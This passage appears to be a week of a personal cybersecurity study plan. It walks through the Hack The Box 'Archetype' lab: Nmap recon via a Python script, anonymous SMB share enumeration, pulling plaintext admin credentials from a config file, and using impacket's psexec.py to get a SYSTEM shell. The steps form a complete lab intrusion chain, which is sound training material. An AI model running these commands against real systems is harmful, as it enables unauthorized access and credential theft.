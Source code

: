 - **Goal**: Write an Nmap script—learn subprocess. - **Steps**:   - On .101: `nano htb_recon.py`   - Type:     ```python     import subprocess  # Runs shell commands     def run_nmap(target):         cmd = ["nmap", "-sV", target]  # List, not string—safer         result = subprocess.run(cmd, capture_output=True, text=True)  # Run and grab output         print("Nmap says:", result.stdout)  # Show it         return result.stdout.splitlines()  # Split into lines     target = "10.10.10.27"  # HTB IP     output = run_nmap(target)     with open("htb_archetype.txt", "w") as f:  # Write file         f.write("Recon:\n")         for line in output:  # Loop lines             f.write(line + "\n")     ```   - Save, SCP: `scp htb_recon.py kali@192.168.56.102:/home/kali` - **Slice**:   - `subprocess.run`: Runs `nmap`—like QA automation.   - `capture_output=True`: Grabs results.   - `splitlines()`: Breaks output—line-by-line control. - **Meditate**: Python’s your scout—feel its reach.
#### 2. Run Recon on .102 (1 hr)
- **Goal**: Execute Python recon. - **Steps**:   - On .102:     - VPN: `openvpn MrClocSecAI.ovpn &` (background).     - `python3 htb_recon.py`     - SCP: `scp htb_archetype.txt ubuntu@192.168.56.101:~/Documents/16week-upskill/Notes`   - Expect: 445 (SMB) open in `htb_archetype.txt`. - **Cut**: Python drives Nmap—automation’s live. - **Meditate**: SMB’s your door—focus on 445.
#### 3. SMB Enumeration on .102 (2 hrs)
- **Goal**: Probe shares, find creds. - **Steps**:   - `smbclient -L //10.10.10.27 -N` (no auth)—see “backups”.   - `smbclient //10.10.10.27/backups -N`     - Inside: `ls` or `dir`, then `get prod.dtsConfig`.   - `cat prod.dtsConfig`—expect `administrator:password123`.   - SCP to .101: `scp prod.dtsConfig ubuntu@192.168.56.101:~/Documents/16week-upskill/Notes`   - On .101: Append to `htb_archetype.txt`:     ```     SMB Enum - 03/29/25     Commands: smbclient -L //10.10.10.27 -N, smbclient //10.10.10.27/backups -N     File: prod.dtsConfig     Creds: administrator:password123     ``` - **Chop**: `-N` skips login—open shares spill secrets. - **Meditate**: Creds in plain text—AI servers do this too. Pause, reread output.
#### 4. Exploitation on .102 (2 hrs)
- **Goal**: Get shell—own the box. - **Steps**:   - `pip install impacket==0.12.0`   - `psexec.py administrator:password123@10.10.10.27`     - Expect: `C:\Windows\system32>` prompt, `nt authority\system`.   - Proof: `whoami` (system), `type c:\Users\Public\user.txt` (grab flag).   - Exit: `exit`.   - On .101: Append `htb_archetype.txt`:     ```     Exploit - 03/29/25     Command: psexec.py administrator:password123@10.10.10.27     Result: System shell, user flag: [paste flag]     ```   - SCP updated `htb_archetype.txt` to .101. - **Slice**: `psexec` uses SMB—creds unlock it. Impacket’s Python—3.12.3 shines. - **Meditate**: You’re in—feel the rush, then steady for cleanup.
#### 5. Wrap-Up & Week 4 Prep on .101 (2-3 hrs)
- **Goal**: Commit, prep Wireshark + AI course. - **Steps**:   - Git:     - `git add htb_archetype.txt htb_recon.py`     - `git commit -m "Week 3: HTB Archetype exploited"`   - Notes: `nano cyber_notes.txt`, add:     ```     Python + SMB = pentest power. Recon’s the key—SMB’s the lock.     ```   - Wireshark:     - `sudo apt update && sudo apt install wireshark`     - `wireshark &` (GUI opens).     - Select `eth1` (your network), start capture, wait 1 min, stop, save as `test.pcapng`.   - DeepLearning.AI:     - Browser: https://www.deeplearning.ai/courses/ai-for-everyone/     - Sign up (free), watch Week 1 (~1 hr)—“What is AI?”.   - Git:     - `git add test.pcapng cyber_notes.txt`     - `git commit -m "Week 3: Wireshark + AI prep"`     - `git push` - **Cut**: Wireshark sniffs—AI APIs leak here. DeepLearning.AI unpacks ML—your next frontier. - **Meditate**: You owned a box—rest, reflect on Python’s reach.
## Upload to Git
- On .101:   - Save this as `week_3_master_plan.md` in `~/Documents/16week-upskill/Notes`.     - `nano week_3_master_plan.md`, paste all, Ctrl+O, Enter, Ctrl+X.   - `git add week_3_master_plan.md`   - `git commit -m "Week 3: Master plan added"`   - `git push` - Verify: https://github.com/MrClocSecAI/16week-upskill—see it live.
## Final Notes
- **Fresh Start**: If you reboot or lose track, start at “Setup Recap”—it’s all here. - **Focus**: Meditate blocks are your breath—pause, internalize, then strike. - **Nuances**: Every command’s spelled out—type slow, read output, debug live if stuck (ask me!). - **Mastery**: You’re not copying—you’re crafting. This is your dojo, your blade. Start Monday, cut deep, and rise a master!
